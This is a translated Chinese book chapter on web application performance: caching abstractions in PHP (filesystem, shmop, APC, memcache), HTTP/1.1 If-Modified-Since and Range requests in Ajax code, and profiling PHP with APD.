对于更复杂的请求及相应的响应处理，同样的技术也适用。如果一个保存对象的请求、一个向服务器轮询更新列表的请求，以及一个定期发送的动态侧边栏请求都需要在足够短的时间段内完成，那么这些请求应简单地合并为一个由各部分组成的单个请求。每个接口都有能力扩展第3章“客户端应用架构”中定义的 `AjaxRequestManager` 类，并可内建决策逻辑。这种做法确保了这三个请求都收到同一个 `AjaxRequest` 子类的实例，该实例仅在 `AjaxRequestManager` 实例指示时才*真正*发送请求。当这种情况发生时，与对象的交互保持不变，但对象仍然透明地处理针对特定接口和相关数据需求的队列。

### 5.3 缓存

虽然加速服务器端脚本和数据库交互在性能优化中确实占有一席之地，但简单地将其从方程中移除也能提升服务器端性能。为了生成缓存本身，初始处理仍然需要进行，但从那时起，服务器端应用程序在将缓存传递给客户端之前，只需检查缓存的存在和新鲜度。

根据应用程序甚至应用程序的某个部分，此缓存可能构成输出的一小部分或全部。无论如何，检查和生成缓存的过程保持不变。PHP 提供了几种实现应用程序缓存的方法，具体取决于文件系统、磁盘空间、内存空间、扩展和其他变量。

由于缓存方法可能在应用程序的生命周期内发生变化，通过特定函数库设置、获取和删除缓存条目的调用应隐藏在抽象层之后。这种抽象用法还提供了在同一个应用程序中使用多种缓存技术的能力，使用相同的调用。如果应用程序可能在开发人员无法控制的不同机器上运行，这也可以确保应用程序使用给定机器上可用的任何系统；这为开发人员节省了必须将所有内容编码到最低公分母的时间：

```
abstract class Cache {
    abstract public function setCache($key, $value = null, $expires = null);
    abstract public function getCache($key);
    abstract public function deleteCache($key);
}
```

上面的简单抽象 `Cache` 类为应用程序中用于访问缓存功能的对象定义了要求。本节描述的每种方法都包含一个扩展 `Cache` 的类，应用程序随后可以透明地使用它。

#### 5.3.1 文件系统

使用临时文件作为缓存存储可能不会提供最佳性能，但它们作为最后手段非常有效。磁盘读取缓存内容所需的时间仍只是数据库查询所需时间的一小部分，并且磁盘写入仅在最初将数据写入缓存时发生。

下面的 `filesystemCache` 类扩展了先前定义的 `Cache`，以便为应用程序缓存数据。为了管理数据过期，它将传递的时间戳（或十个0）写为文件的前十个字节，然后将序列化的数据直接写在其后。当它读取缓存文件时，它首先读取前十个字节，将其转换为整数并与当前时间进行比较。如果存储的时间戳反映的时间早于打开文件的时刻，则缓存已过期。

该类将其文件存储在默认临时文件目录中，位于一个通过脚本完整路径的哈希值创建的目录内。如此命名应能避免缓存文件冲突，如果应用程序碰巧在同一服务器的两个不同目录中运行；当共享服务器运行同一论坛软件的多个实例时，就会发生这种情况：

```
/**
 * 一个用于使用临时文件进行缓存的抽象类
 */
class filesystemCache extends Cache {
    public function setCache($key, $value = null, $expires = null) {
        $filepath = $this->filesystemKey($key);
        // 使用独占锁写入过期时间以覆盖它
        $expires = str_pad((int)$expires, 10, '0', STR_PAD_LEFT);
        $success = (bool)file_put_contents(
            $filepath,
            $expires,
            FILE_EX
        );
        if ($success) {
            // 将序列化的值附加到文件
            return (bool)file_put_contents(
                $filepath,
                serialize($value),
                FILE_EX | FILE_APPEND
            );
        }
        return false;
    }

    public function getCache($key) {
        $filepath = $this->filesystemKey($key);
        // 尝试以只读方式打开文件
        if (file_exists($filepath) && $file = fopen($filepath, 'r')) {
            // 该对象将过期时间戳存储在这里
            $expires = (int)fread($file, 10);
            // 如果过期时间超过当前时间，
            // 返回缓存
            if (!$expires || $expires > time()) {
                $realsize = filesize($filepath) - 10;
                $cache = '';
                // 需要循环读取，因为 fread
                // 在 8192 字节后返回
                while ($chunk = fread($file, $realsize)) {
                    $cache .= $chunk;
                }
                fclose($file);
                return unserialize($cache);
            } else {
                // 关闭并删除过期的缓存
                fclose($file);
                $this->deleteCache($key);
            }
        }
        return false;
    }

    public function deleteCache($key) {
        $filepath = $this->filesystemKey($key);
        if (file_exists($filepath)) {
            return unlink($filepath);
        }
        return true;
    }

    /**
     * 将键的生成统一在一个地方
     */
    protected function filesystemKey($key) {
        return $this->tempdir . md5($key);
    }

    public function __construct() {
        // 可以覆盖此方法以设置另一个目录
        $this->tempdir = sys_get_temp_dir() . md5(__FILE__);
        if (!is_dir($this->tempdir)) {
            mkdir($this->tempdir);
        }
        $this->tempdir .= DIRECTORY_SEPARATOR;
    }
}
```

此类仅处理应用程序缓存，而非输出缓存。这确实造成了相当大的差异，因为应用程序数据缓存通常需要存储多个较小的块，而输出有时可以达到兆字节的数据量。显示缓存输出而不是将缓存输出加载到内存中然后显示它需要略有不同的方法。

当存储缓存输出时，直接将输出写入文件而不对其进行序列化或在其中存储任何元数据更有意义，这样应用程序的输出就可以使用 `readfile()` 将输出直接传递给浏览器。对于过期，在内容生成时缓存输出完全将其从过程中移除，确保缓存始终存在。

#### 5.3.2 内存

将应用程序缓存存储在内存中可以大大提高性能，这与缓存到文件相比，因为内存缓存不需要磁盘读写。它的缺点是给定机器的RAM限制，与可用磁盘空间相比相当低。然而，对于Web应用程序数据，一到两个GB的可用RAM用于缓存效果相当显著。当服务器通常可以拥有八到十六GB的可用内存时，Web应用程序几乎可以将整个负载从数据库中卸下，仅在缓存条目尚不存在时才从数据库读取。

##### 5.3.2.1 shmop

PHP的共享内存操作扩展（shmop），它是PHP核心的一部分，而非外部库，为共享内存块提供了相对低级的API。这对开发人员有利，因为它提供了类似文件系统的函数调用来打开、关闭和读取块；然而，这也意味着该扩展不包含数据过期、序列化或任何其他由其他内存访问扩展内部处理的功能。它仅提供打开、关闭、删除、从共享内存块读取字节、写入字节以及返回共享内存块大小的方法。

因此，下面的 `shmopCache`，它也扩展了 `Cache` 类以用于应用程序，比其他任何基于内存的 `Cache` 类都更复杂。生成的操作和过期逻辑保持不变，但此对象需要实现除实际字节存储在内存本身之外的所有内容。这可能导致比其他共享内存扩展更高的内存使用和稍慢的处理速度，仅仅因为它必须管理值的序列化字符串表示：

```
/**
 * shmop扩展的抽象类，该扩展
 * 不实现序列化或数据过期，
 * 因此这个类来处理它
 */
class shmopCache extends Cache {
    public function setCache($key, $value = null, $expires = null) {
        // 如果块已存在，则删除它
        $this->deleteCache($key);
        // 创建新块
        $shmop_key = $this->shmopKey($key);
        // 创建序列化的值
        $shmop_value = serialize($value);
        // 值大小 + 10 用于过期时间
        $shmop_size = strlen($shmop_value) + 10;
```


##### 5.3.2.1 shmopCache

```php
// 尝试以只读模式打开 shmop 块
if ($block = shmop_open($shmop_key, 'n', 0600, $shmop_size)) {
    $expires = str_pad((int)$expires, 10, '0', STR_PAD_LEFT);
    $written = shmop_write($block, $expires, 0)
               && shmop_write($block, $shmop_value, 10);
    shmop_close($block);
    return $written;
}
return false;
}
```

```php
public function getCache($key) {
    $shmop_key = $this->shmopKey($key);
    // 尝试以只读模式打开 shmop 块
    if ($block = shmop_open($shmop_key, 'a')) {
        // 此对象将过期时间戳存储在此处
        $expires = (int)shmop_read($block, 0, 10);
        $cache = false;
        // 如果过期时间超过当前时间，
        // 则返回缓存
        if (!$expires || $expires > time()) {
            $realsize = shmop_size($block) - 10;
            $cache = unserialize(
                shmop_read(
                    $block,
                    10,
                    $realsize
                )
            );
        } else {
            // 关闭并删除已过期的缓存
            shmop_delete($block);
        }
        shmop_close($block);
        return $cache;
    }
    return false;
}
```

```php
public function deleteCache($key) {
    $shmop_key = $this->shmopKey($key);
    // 尝试以读写模式打开 shmop 块
    if ($block = shmop_open($shmop_key, 'w')) {
        $deleted = shmop_delete($block);
        shmop_close($block);
        return $deleted;
    } else {
        // 已不存在
        return true;
    }
}

/**
 * 将密钥生成全部集中在一个地方
 */
protected function shmopKey($key) {
    return crc32($key);
}
}
```

尽管 `getCache()` 的实现与 `filesystemCache` 类中的非常相似，但 `setCache()` 和 `deleteCache()` 方法需要更多处理。对于 `setCache()`，`shmop_open()` 要求块将包含的字节数作为其参数之一。因此，该方法必须在甚至为写入而打开块之前就知道序列化数据的大小。一旦序列化了数据，它就应用与 `filesystemCache` 中相同的技术来存储过期时间和数据本身。

`deleteCache()` 的实现看起来相当不同，因为为了使用 shmop 扩展删除共享内存块，`shmop_delete()` 调用必须接收对打开块的引用，然后将其标记为待删除。一旦当前引用该块的所有进程退出，该块就会从可用共享内存块中消失。

##### 5.3.2.2 替代 PHP 缓存

替代 PHP 缓存 (APC) 扩展安装快速且简单，只需运行 `pecl install apc`。安装并启用后，它不仅提供共享内存存储，还提供 PHP 级别的操作码缓存。它有一个 `apc.php` 文件，你可以将其放在 `DocumentRoot` 中并查看每个文件的使用统计信息；你还可以概览如图 5.1 所示的数据等信息。如果系统包含 GD 扩展，它还将基于统计数据显示图表（如图 5.2 所示）。

Zend 提供其专有的闭源 Zend Optimizer (www.zend.com/products/zend_optimizer)，它也提供操作码缓存。它运行由 Zend Guard 编码的文件，而 PHP 的其他操作码缓存工具无法做到这一点。然而，由于它不向 PHP 代码提供共享内存函数，因此本类使用 APC：

| 通用缓存信息 | |
|---|---|
| APC 版本 | 3.0.14 |
| PHP 版本 | 5.2.1 |
| APC 主机 | 192.168.2.106 |
| 服务器软件 | Apache/2.2.3 (Unix) PHP/5.2.1 |
| 共享内存 | 1 个段，30.0 MB<br>(mmap 内存，文件锁定) |
| 启动时间 | 2007/04/30 20:03:44 |
| 运行时间 | 3 小时 11 分钟 |
| 文件上传支持 | 1 |

| 文件缓存信息 | |
|---|---|
| 缓存文件数 | 53 (2.5 MB) |
| 命中次数 | 732293 |
| 未命中次数 | 122 |
| 请求速率 (命中，未命中) | 63.69 次缓存请求/秒 |
| 命中速率 | 63.68 次缓存请求/秒 |
| 未命中速率 | 0.01 次缓存请求/秒 |
| 插入速率 | 0.00 次缓存请求/秒 |
| 缓存已满计数 | 0 |

| 用户缓存信息 | |
|---|---|
| 缓存变量数 | 0 (0.0 字节) |
| 命中次数 | 0 |
| 未命中次数 | 0 |
| 请求速率 (命中，未命中) | 0.00 次缓存请求/秒 |
| 命中速率 | 0.00 次缓存请求/秒 |
| 未命中速率 | 0.00 次缓存请求/秒 |
| 插入速率 | 0.00 次缓存请求/秒 |
| 缓存已满计数 | 0 |

**图 5.1** 一个 APC 安装的系统统计信息。

```php
/**
 * APC 扩展的抽象类
 */
class APCCache extends Cache {
    public function setCache($key, $value = null, $expires = null) {
        // APC 接受一个存活时间标志，而不是
        // 过期时间戳
        if (isset($expires)) {
            $expires = $expires - time();
        }
        return apc_store($key, $value, $expires);
    }

    public function getCache($key) {
        return apc_fetch($key);
    }

    public function deleteCache($key) {
        return apc_delete($key);
    }
}
```



**图 5.2** 显示内存使用率、命中百分比和碎片率的图表。

`APCCache` 类比 `filesystemCache` 和 `shmopCache` 类简单得多，因为 APC 扩展已经处理了该类所需的一切。此类中唯一需要的自定义代码是将传递给 `setCache()` 方法的过期时间戳转换为秒数，然后将其传递给 `apc_store` 方法。它透明地处理了所有其他事项。

##### 5.3.2.3 memcache

虽然 memcache 乍一看可能只是另一个内存存储工具，但它提供了 shmop 和 APC 无法提供的功能。因为它作为守护进程而非静态工具集运行，单个 memcache 服务器可以为一组 Web 服务器提供缓存。同样，一系列 memcache 服务器为缓存引入了并行服务器的优势，使得 Web 应用程序的高可用性、高性能需求更容易实现。

memcache 守护进程本身安装非常容易，因为它几乎不需要用户配置。它没有配置文件，而是通过调用 `memcached` 时传递的参数来改变其行为。安装后，memcache PHP 扩展可以通过使用 `configure` 脚本的 `--enable-memcache[=/path/to/memcache/directory]` 标志编译 PHP，或者通过使用 `pecl install memcache` 来安装。

`Memcache` 对象 API 的用法与 APC 非常相似，尽管它提供了更多的功能。`memcache` 扩展包括设置压缩阈值的能力，因此任何超过指定大小的数据集将自动应用压缩，同时忽略可能不需要压缩的较小值。它还允许增加和减少缓存中保存的值。Memcache 在处理这些操作时，无需调用 get、update 和 set 值，而是直接在数据本身上处理操作。

memcache 的另一个独特功能是其允许通过为每台服务器调用 `addServer()` 方法将缓存连接到另一台机器（甚至多台机器）的能力。假设没有更改默认配置，它将自行处理 memcache 服务器池，使多个 Web 服务器可以轻松访问同一缓存而无需重复：

```php
/**
 * memcache 扩展的抽象类，它提供了
 * 比此处展示的更多的功能，
 * 但此示例保持对象接口通用
 */
class memcacheCache extends Cache {
    // 抽象化的 memcache 实例
    protected $memcache;

    public function setCache($key, $value = null, $expires = null) {
        return $this->memcache->set($key, $value, null, $expires);
    }

    public function getCache($key) {
        return $this->memcache->get($key);
    }

    public function deleteCache($key) {
        return $this->memcache->delete($key);
    }

    /**
     * 此简单实现默认连接到一台服务器：localhost；
```


public function __construct() {
    $this->memcache = new Memcache();
    $this->memcache->pconnect('127.0.0.1', 11211);
}

与`APCCache`类类似，`memcacheCache`类需要编写的自定义代码也很少，以满足`Cache`对象的需求。在这种情况下，它只需要自定义代码来实例化整个过程中使用的`Memcache`实例，然后连接到memcache服务器。`set()`方法接受一个可选的第三个参数（一个标志），当设置为`MEMCACHE_COMPRESSED`时，将使用zlib对数据进行即时压缩。

#### 5.3.3 完成实现

现在，应用程序已经有了四个实现父`Cache`类所需通用对象接口的类，应用程序只需要一种简单的方式来加载适当的类。通过使用如下所示的静态方法，应用程序可以根据名称或根据PHP环境首先支持的类型加载任何一个类的实例：

```php
/*
 * Either declared statically or dynamically
 * through a registration method
 */
global $cache_engines;
$cache_engines = array(
    'memcache' => array(
        'extension' => 'memcache',
        'class' => 'memcacheCache'
    ),
    'apc' => array(
        'extension' => 'apc',
        'class' => 'APCCache'
    ),
    'shmop' => array(
        'extension' => 'shmop',
        'class' => 'shmopCache'
    ),
    'filesystem' => array(
        'extension' => 'standard',
        'class' => 'filesystemCache'
    ),
);
```

```php
class Utilities {
    protected static $cache;
    /**
     * Declared from within a generic Utilities class, this
     * returns a Cache object depending on the type requested,
     * defaulting to memcache, APC, shmop, and temporary files,
     * depending on what the system has available
     */
    public static function getCache($type = null) {
        global $cache_engines;
        if (self::$cache) {
            return self::$cache;
        } else {
            foreach ($cache_engines as $engine => $info) {
                if ((!isset($type) || $type == $engine)
                    && extension_loaded($info['extension'])) {
                    return self::$cache = new $info['class']();
                }
            }
        }
        // No matching cache object found
        return false;
    }
}
```

整个应用程序中的代码都可以使用这个`Cache`类的单例实例来缓存任何可序列化的数据，而不依赖于任何特定的方法。数据库对象可以将此用法构建到保存方法中，以便存储字段数据，从而仅在缓存未命中时才进行数据库读取。数据库仍然是主要的存储，但即使对于每几小时更新一次的动态数据列表使用缓存，也将大大减轻数据库的负担。

### 5.4 利用 HTTP/1.1

大多数浏览器和XML feed阅读器充分利用HTTP/1.1规范，极大地减少了从服务器发送的数据量，而`XMLHttpRequest`对象使开发者能够访问相同的功能。HTTP/1.1规范的两个相互交织的方面可以帮助Ajax驱动的应用程序。它们是状态码和缓存控制。

在先前定义的`AjaxRequest`对象中支持这些功能很容易。它已经支持通过其`headers`对象设置自定义头信息，就像设置`GET`和`POST`变量一样。为了支持服务器可以返回的各种状态码，您只需要添加事件类型，并通过将`stateChanged()`方法从以下形式：

```javascript
// Event dispatching
AjaxRequest.prototype.events = {
    abort : [],
    data : [],
    fail : [],
    load : [],
    open : [],
    send : [],
};

// Callback for this.xhr.onreadystatechange
AjaxRequest.prototype.stateChanged = function() {
    // Only trigger load if finished returning
    switch(this.xhr.readyState) {
        case 3:
            var e = new AjaxEvent(this);
            this.dispatchEvent('data', e);
            break;
        case 4:
            try {
                // Only continue if status OK
                if (this.xhr.status == 200) {
                    var e = new AjaxEvent(this);
                    this.dispatchEvent('load', e);
                }
            } catch (ex) {
                var e = new AjaxEvent(this);
                this.dispatchEvent('fail', e);
            }
    }
}
```

更改为可以处理多个状态码的新版本：

```javascript
// Event dispatching
AjaxRequest.prototype.events = {
    abort : [],
    data : [],
    internalservererror : [],
    load : [],
    notfound : [],
    notmodified : [],
    open : [],
    partialload : [],
    requestedrangenotsatisfiable : [],
    send : [],
    unauthorized : []
};

// Simple lookup of event types by status code
AjaxRequest.prototype.statusCodeEvents = {
    200 : 'load',
    206 : 'partialload',
    304 : 'notmodified',
    401 : 'unauthorized',
    404 : 'notfound',
    416 : 'requestedrangenotsatisfiable',
    500 : 'internalservererror'
};

// Callback for this.xhr.onreadystatechange
AjaxRequest.prototype.stateChanged = function() {
    // Only trigger load if finished returning
    switch(this.xhr.readyState) {
        case 3:
            var e = new AjaxEvent(this);
            this.dispatchEvent('data', e);
            break;
        case 4:
            if (this.statusCodeEvents[this.xhr.status]) {
                var e = new AjaxEvent(this);
                this.dispatchEvent(this.statusCodeEvents[this.xhr.status], e);
            }
    }
}
```

`stateChanged()`的新实现现在会触发与请求返回的状态码映射的事件，前提是`AjaxRequest`对象实现了该事件类型。虽然状态码列表仅包含本章使用中最常用的代码，但它可以包含添加到`events`和`statusCodeEvents`对象的任何附加代码。

为了探索每个HTTP状态码和头信息的使用，本节中关于HTTP使用的示例将围绕有条件地从以下脚本（存储在缓存的文本文件中）检索全部或部分输出：

```php
for ($i = 1; $i < 401; $i++) {
    printf("[%03s] I am a fish.\n", $i);
}
```

这将生成一个包含四百行的7600字节文件，对于普通的`XMLHttpRequest`来说可能不会造成太大问题，但如果脚本需要轮询内容更新呢？如果脚本更改为以下内容，HTTP的使用尤其有帮助：

```php
for ($i = 1; $i < 401; $i++) {
    sleep(rand(0, 10));
    printf("[%03s] I am a fish.\n", $i);
}
```

添加`sleep(rand( 0, 10 ))`本质上复制了基于Ajax的文件上传会有的反馈类型，使您可以访问已加载文件的一部分，该部分以不可预测的速率变化。

#### 5.4.1 If-Modified-Since

**头信息**`If-Modified-Since`有条件地请求服务器仅在相关内容自指定日期和时间以来有任何更改时才返回内容。这消除了使用`HEAD`请求来检查脚本应返回的`Last-Modified`头信息的需要，而是将其与`If-Modified-Since`结合使用，以跟踪客户端收到的最近更改的日期和时间。

以下示例显示了telnet，用于使用`If-Modified-Since`（日期和时间早于内容最后修改时间）从`/content.php`请求文件，如下所示（为可读性已删除400行内容）：

```
GET /content.txt HTTP/1.1
Host: 192.168.2.106
If-Modified-Since: Mon, 30 Apr 2007 14:44:44 GMT
```

```
HTTP/1.1 200 OK
Date: Tue, 01 May 2007 16:48:46 GMT
Server: Apache/2.2.3 (Unix) PHP/5.2.1
Last-Modified: Tue, 01 May 2007 16:45:39 GMT
Content-Length: 7600
Content-Type: text/plain
```

脚本随后可以查看每次对相同内容请求的`Last-Modified`响应头，直到内容返回另一个`200 OK`状态和新的`Last-Modified`时间。再次使用telnet模拟此过程，以下示例显示在请求尚未修改的内容时的完整响应（服务器未返回实际内容）：

```
GET /content.php HTTP/1.1
Host: 192.168.2.106
If-Modified-Since: Tue, 01 May 2007 16:45:39 GMT
```

```
HTTP/1.1 304 Not Modified
Date: Tue, 01 May 2007 16:46:14 GMT
Server: Apache/2.2.3 (Unix) PHP/5.2.1
```

回到`AjaxRequest`对象，将条件请求应用于实际脚本，在将状态码抽象为事件后，这变得更容易管理。形成请求的脚本只需要添加头信息，然后向`AjaxRequest`对象的`load`和`notmodified`事件添加事件监听器，每个监听器适当地处理响应：

```javascript
function Content() { }
Content.prototype = {
    // Keep track of the Last-Modified time of the content
    last_modified : 'Mon, 30 Apr 2007 14:44:44 GMT',

    updateContent : function() {
        var request = request_manager.createAjaxRequest();
        request.addEventListener('load', [this, this.contentLoaded]);
        request.addEventListener('notmodified', [this, this.contentNotModified]);
        request.headers['If-Modified-Since'] = this.last_modified;
        request.open('GET', 'content.txt');
        return request.send();
    }
```


contentLoaded : function(event) {
    this.last_modified = event.request.xhr.getResponseHeader('Last-Modified');
    // 从响应中更新内容
}

contentNotModified : function(event) {
    // 内容未修改，进行相应处理
}
}

使用与上述telnet示例中相同的请求内容，首次在 `Content` 实例上调用 `updateContent()` 将触发 `load` 事件。然后，`load` 事件会调用 `contentLoaded()` 事件监听器，该监听器将实例变量 `last_modified` 设置为服务器在 `Last-Modified` 头中返回的时间戳。此后，对该 `Content` 实例进行的任何 `updateContent()` 调用，都将在 `If-Modified-Since` 请求头中传递这个新时间戳，并且（除非内容再次更新）每个响应都会触发 `notmodified` 事件，转而调用 `contentNotModified()`。

#### 5.4.2 范围（Range）

在动态Web应用程序中使用 `Range` 头似乎是一件困难的事情，但当与服务器端缓存结合使用时，事情就变得容易多了。`Range` 头的作用确实存在局限性，即它不适用于已更改的内容（除非你能准确预测字节的变化），而仅适用于自上次请求以来新增的内容。
再次使用telnet来演示 `Range` 头的实际用法，以下示例展示了一个HTTP请求，该请求要求获取从第7562个字节开始的所有内容。PHP脚本解析 `Range` 头，并以 `206 Partial Content` 状态返回请求的字节，告知客户端它只返回了所请求的内容块：

```
GET /content.php HTTP/1.1
Host: 192.168.2.106
Range: 7562-

HTTP/1.1 206 Partial Content
Date: Sun, 29 Apr 2007 21:13:38 GMT
Server: Apache/2.2.3 (Unix) PHP/5.2.1
Content-Length: 38
Content-Type: text/plain
```

[399] I am a fish.
[400] I am a fish.

请求本可以在 `Range` 头中指定一个确切的范围，如 `7562-7600`，但在请求数据片段时，请求内容的脚本通常并不知道内容的新大小。基于上一节 `If-Modified-Since` 中的脚本进行扩展，以下脚本使用 `Range` 头来有条件地只请求它尚未加载的内容片段：

```
function Content() { }
Content.prototype = {
    // 跟踪已接收的总字节数
    bytes_loaded : 0,
    // 跟踪内容的最后修改时间
    last_modified : 'Mon, 30 Apr 2007 14:44:44 GMT',

    updateContent : function() {
        var request = request_manager.createAjaxRequest();
        request.addEventListener('load', [this, this.contentLoaded]);
        request.addEventListener('notmodified', [this, this.contentNotModified]);
        request.headers['If-Modified-Since'] = this.last_modified;
        // 如果已经加载了一些内容，则只接收额外的内容
        if (this.bytes_loaded > 0) {
            request.headers['Range'] = this.bytes_loaded.toString() + '-';
            request.addEventListener(
                'partialload',
                [this, this.contentPartiallyLoaded]
            );
            request.addEventListener(
                'requestedrangenotsatisfiable',
                [this, this.badRangeRequested]
            );
        }
        request.open('GET', 'content.txt');
        return request.send();
    },

    contentLoaded : function(event) {
        this.last_modified = event.request.xhr.getResponseHeader('Last-Modified');
        this.bytes_loaded = parseInt(
            event.request.xhr.getResponseHeader('Content-Length')
        );
        // 从响应中更新内容
    }
};
```

```
contentNotModified : function(event) {
    // 内容未修改，进行相应处理
}

contentPartiallyLoaded : function(event) {
    this.bytes_loaded += parseInt(
        event.request.xhr.getResponseHeader('Content-Length')
    );
    // 处理额外的内容
}

badRangeRequested : function(event) {
    // 处理一个响应，告知客户端
    // 它请求了一个无效的范围
}
```

现在，当脚本运行初始的内容请求时，它仍然像以前一样请求完整内容，但在 `load` 事件处理程序中设置 `bytes_loaded`。此后，由于 `bytes_loaded` 将包含一个非零数字，它将只请求从已加载字节数开始的内容。它还会继续使用 `If-Modified-Since` 请求头，以便当 `notmodified` 事件返回时，仍然可以利用它们。

如果在长时间运行此更新过程的过程中内容完全改变，服务器端应用程序可以发送完整内容并返回 `200 OK` 状态，这样即使请求的是部分内容，`load` 事件监听器也能处理响应。此外，虽然不是预期的事件，脚本已添加了对 `416 Requested Range Not Satisfiable` 响应的可能性的处理。这种情况更常见于当起始点和结束点（甚至是一系列起始/结束对，如 `0-38,7562-`）完全不合理时返回，例如请求的范围是 `NaN-42` 或 `23-0`。

### 5.5 PHP 性能分析

第4章“调试客户端代码”探讨了使用Firebug进行客户端代码性能分析，但这仍然忽略了服务器端代码性能分析。随着Web应用程序在规模、复杂性和使用量上的增长，代码性能分析成为开发过程中不可或缺的一部分。就像慢查询和缺失的数据库索引一样，PHP代码中的逻辑问题可能会使应用程序慢得令人痛苦，而性能分析可以找出这些问题区域。

#### 5.5.1 高级PHP调试器

高级PHP调试器（APD）Zend扩展为PHP带来了调试和性能分析功能。默认情况下，它会将收集的数据转储到 `php.ini` 中 `apd.dumpdir` 设置指定的目录，或者在启动跟踪时向 `apd_set_pprof_trace()` 函数传递一个目录路径。一旦完成向跟踪文件的转储，`pprofp` 命令就可以根据传递给它的选项分析跟踪文件并显示结果表，展示调用时间和其他信息：

```
pprofp <flags> <trace file>
排序选项
-a          按子程序的字母名称排序。
-l          按子程序的调用次数排序。
-m          按函数调用使用的内存排序。
-r          按子程序花费的真实时间排序。
-R          按子程序花费的真实时间排序（包含子调用）。
-s          按子程序花费的系统时间排序。
-S          按子程序花费的系统时间排序（包含子调用）。
-u          按子程序花费的用户时间排序。
-U          按子程序花费的用户时间排序（包含子调用）。
-v          按子程序花费的平均时间排序。
-z          按子程序花费的用户+系统时间排序。（默认）

显示选项
-c          显示与调用树并行的真实耗时。
-i          抑制对PHP内置函数的报告。
-O <cnt>    指定要显示的最大子程序数量。（默认 15）
-t          显示压缩的调用树。
-T          显示未压缩的调用树。
```

以下对 `pprofp` 的调用按子程序花费的平均时间对表中的信息进行排序，以便查看可能需要性能改进或首先减少调用次数的瓶颈函数。它还抑制了对PHP内置函数的报告，以便尽可能只查看应用程序本身的代码。对 `require` 和 `include` 的调用保留在显示中，因为PHP将它们定义为语言结构而不是实际函数。这说明了 `require` 调用的影响，因为每次调用平均花费的时间是平均 `include` 调用时间的两倍以上，而后者与其他调用相比仍然占用了相当多的时间：


第180章 性能优化

```
$ pprofp -iu /var/tmp/apd/pprof.00431.0
```

```
Trace for /index.php
Total Elapsed Time = 0.19
Total System Time  = 0.02
Total User Time    = 0.02
```

| %Time | Real (excl/cumm) | User (excl/cumm) | System (excl/cumm) | Calls | secs/ call | cumm s/call | Memory Usage |
|---|---|---|---|---|---|---|---|
| 36.4 | 0.08 0.12 | 0.01 0.01 | 0.01 0.01 | 9 | 0.0007 | 0.0011 | 0 |
| 24.3 | 0.05 0.13 | 0.00 0.01 | 0.00 0.01 | 7 | 0.0006 | 0.0016 | 0 |
| 19.7 | 0.02 0.07 | 0.00 0.01 | 0.00 0.01 | 2 | 0.0016 | 0.0034 | 0 |
| 6.2 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 1 | 0.0010 | 0.0010 | 0 |
| 3.7 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 1 | 0.0006 | 0.0006 | 0 |
| 1.7 | 0.04 0.04 | 0.00 0.00 | 0.00 0.00 | 1 | 0.0003 | 0.0004 | 0 |
| 0.7 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 2 | 0.0001 | 0.0001 | 0 |
| 0.7 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 6 | 0.0000 | 0.0000 | 0 |
| 0.6 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 4 | 0.0000 | 0.0000 | 0 |
| 0.6 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 1 | 0.0001 | 0.0001 | 0 |
| 0.5 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 4 | 0.0000 | 0.0000 | 0 |
| 0.4 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 1 | 0.0001 | 0.0001 | 0 |
| 0.4 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 1 | 0.0001 | 0.0008 | 0 |
| 0.3 | 0.00 0.01 | 0.00 0.00 | 0.00 0.00 | 1 | 0.0001 | 0.0005 | 0 |
| 0.3 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 1 | 0.0001 | 0.0001 | 0 |
| 0.3 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 2 | 0.0000 | 0.0000 | 0 |
| 0.2 | 0.00 0.11 | 0.00 0.01 | 0.00 0.01 | 1 | 0.0000 | 0.0072 | 0 |
| 0.2 | 0.00 0.02 | 0.00 0.00 | 0.00 0.00 | 1 | 0.0000 | 0.0013 | 0 |
| 0.2 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 4 | 0.0000 | 0.0004 | 0 |
| 0.2 | 0.00 0.00 | 0.00 0.00 | 0.00 0.00 | 1 | 0.0000 | 0.0001 | 0 |

```
Name
include
Utilities::loadClass
require
apd_set_pprof_trace
CentralController->loadDatabase
Session->select
Session->escapeTable
XHTMLRenderingEngine->sendHeaders
CentralController->getHeader
Messenger->__construct
Session->escapeIdentifier
Message->__construct
XHTMLRenderingEngine->display
View::loadRenderingEngine
Utilities::hashWithSalt
Session->get
CentralController->handleRequest
CentralController->loadController
Session->__construct
CentralController->generateToken
```

使用显示选项，`pprofp` 还可以显示调用树（可选在每次调用左侧显示耗时），从而提供有用的处理可视化：

```
0.00 main
0.00   apd_set_pprof_trace
0.02   require (2x)
0.02     Utilities::loadClass
0.03       preg_match (2x)
0.03       is_readable
0.05       include
0.05       class_exists
0.05     Utilities::loadClass
0.05       preg_match (2x)
0.05       file_exists
0.05       is_readable
0.07       include
0.07       class_exists
0.07   Messenger->__construct
0.07 CentralController->__construct
0.08 include
```

这部分完整的调用树展示了从首次函数调用（`apd_set_pprof_trace`）到 `CentralController` 实例化所执行的调用。它表明，每次加载尚未加载到应用程序中的类（此处为 `Messenger` 和 `View`）都需要相当长的时间，因为涉及两次 `preg_match` 调用和一次 `include` 调用，这些都是开销较大的操作。然而，在调用树的更下方显示，后续加载相同类（此处为 `Session`）的调用耗时非常少，因为该工具会跟踪已加载的类，避免对已加载的类重复执行过滤过程：

```
0.19       registrationController->createUser
